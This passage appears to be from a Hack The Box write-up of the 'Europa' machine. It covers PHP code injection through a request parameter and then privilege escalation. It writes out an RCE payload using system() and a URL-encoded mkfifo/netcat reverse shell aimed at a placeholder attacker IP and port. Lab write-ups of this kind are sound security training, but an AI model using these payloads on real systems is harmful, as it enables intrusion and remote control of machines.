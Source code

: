Feel free to edit out all the giberrish and change the request data to `pattern=%2Fv3ded%2Fe&ipaddress=system("ls -la /")&text=v3ded` so that we can achieve RCE.
  
<img src="/assets/img/blog/htb-europa/htb-europa-10.png">

Now it's just the matter changing the system() command parameters and getting a [reverse shell](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet). You can approach it in many ways, here is my solution - `system("rm+/tmp/f%3bmkfifo+/tmp/f%3bcat+/tmp/f|/bin/sh+-i+2>%261|nc+yourIP+PORT+>/tmp/f")`!  We use netcat for a reverse shell connection, however because *-e* option is  unavailable, we are forced to use a workaround. Check the reverse shell link above for more information.

<div class="notice--info">
  <h4>Note:</h4>
  <p>The previous reverse shell is an URL encoded version of the original one, found on pentestmonkey</p>
</div>
<img src="/assets/img/blog/htb-europa/htb-europa-11.png">

Baaam!

***

# Privilege escalation

Following my usual information gathering steps I find a running vulnerable cronjob!

```console
$ cat /etc/crontab

# /etc/crontab: system-wide crontab
# Unlike any other crontab you do not have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user	command
17 *	* * *	root    cd / && run-parts --report /etc/cron.hourly
```